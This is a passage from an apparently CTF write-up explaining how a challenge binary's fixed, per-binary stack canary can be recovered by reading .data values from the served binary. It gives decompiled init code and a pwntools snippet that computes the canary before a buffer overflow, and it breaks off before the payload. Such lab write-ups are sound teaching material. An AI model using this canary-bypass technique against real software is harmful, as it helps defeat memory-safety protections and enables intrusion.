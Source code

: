 ```c
```

Notice that we have stack buffer overflow vulnerability here, but the catch is that there is stack canary (saved on the stack at `local_10` and checked at the end). Here's where the differences between the files come:

The stack canary is actually fixed at startup by an initializer code:

```c
void _INIT_1(void)
{
  undefined8 uVar1;
  
  setup();
  uVar1 = get_canary_val();
  fix_canary(uVar1);
  return;
}
```

I renamed some of the code but it's pretty obvious.

```c
undefined8 get_canary_val(void)
{
  return null_ARRAY_00104020[DAT_00104070];
}

void fix_canary(undefined8 param_1)
{
  long in_FS_OFFSET;
  
  *(undefined8 *)(in_FS_OFFSET + 0x28) = param_1;
  return;
}
```

The values in `null_ARRAY_00104020` and `DAT_00104070` are different for each binary you get. So we just have to read the binary, find these `.data` values on the spot and determine the stack canary, then we bypass stack canary.

```python
conn = remote("hto2024-nlb-fa01ec5dc40a5322.elb.ap-northeast-2.amazonaws.com", 5001)
conn.recvline()
conn.recvline()

binary = conn.recvline(keepends=False).decode()
b = b64decode(binary)

canary_base = 0x3020
canary_offset = b[0x3070] * 8
canary_pos = canary_base + canary_offset

canary = b[canary_pos:canary_pos+8]
info("Canary: " + hex(int.from_bytes(canary, 'little')))
```
